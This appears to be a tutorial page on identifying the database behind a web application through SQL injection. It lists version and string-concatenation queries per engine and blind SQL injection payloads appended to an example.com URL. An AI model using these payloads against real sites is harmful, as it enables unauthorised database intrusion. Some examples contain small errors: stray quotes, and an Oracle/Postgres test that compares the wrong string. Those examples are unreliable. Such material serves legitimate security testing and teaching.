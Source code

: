 ## Banner Grabbing

In this technique, we an retrieve the Backend DBMS banner. In some cases, it may have been replaced by the system administrator.
This technique lays on some SQL statements:
* MS SQL: `SELECT @@version`
* MySQL/MariaDB: `SELECT version()`
* Oracle: `SELECT version FROM v$instance`
* Postgres: `SELECT version()`

## Fingerprinting with string concatenation
In the case, the banner has been replaced by the administrator for example. Another method consists in using the concatenation handling operators to determine the DBMS.
* MS SQL: `'a' + 'a'`
* MySQL/MariaDB: `CONCAT('a','a')`
* Oracle: `'a' || 'a' or CONCAT('a','a')`
* Postgres: `'a' || 'a'`

As we can see both `Oracle` and `Postgres` use the **||** operator to perform such a concatenation, so we need another difference to distinguish them.

`PL/SQL` define the `CONCAT` operator as well to perform string concatenation and as you can guess this one is not defined on `Postgres`. 

## Example:

Let say you're testing the following URL: `http://www.example.com/news.php?id=1`

We checked that the above URL is vulnerable to a Blind SQL Injection. It means that `http://www.example.com/news.php` return back the same contents with both

`id=1 (http://www.example.com/news.php?id=1)`

and

`id=1 AND 1=1 (http://www.example.com/news.php?id=1 AND 1=1)`

We know that different engine have different operators to perform string concatenation as well so all we have to do is to compare the orginal page (`id=1`) with:

* MS SQL: `id=1 AND 'aa'='a'+'a'`
The following comparison should be true:

`http://www.example.com/news.php?id=1''`

`http://www.example.com/news.php?id=1 AND 'aa'='a'+'a'''`

* MySQL/MariaDB/Oracle: `id=1 AND 'aa'=CONCAT('a','a')`

The following comparison should be true:

`http://www.example.com/news.php?id=1`

`http://www.example.com/news.php?id=1 AND 'aa'=CONCAT('a','a')`

* Oracle/Postgres: `id=1 AND 'a'='a'||'a'`
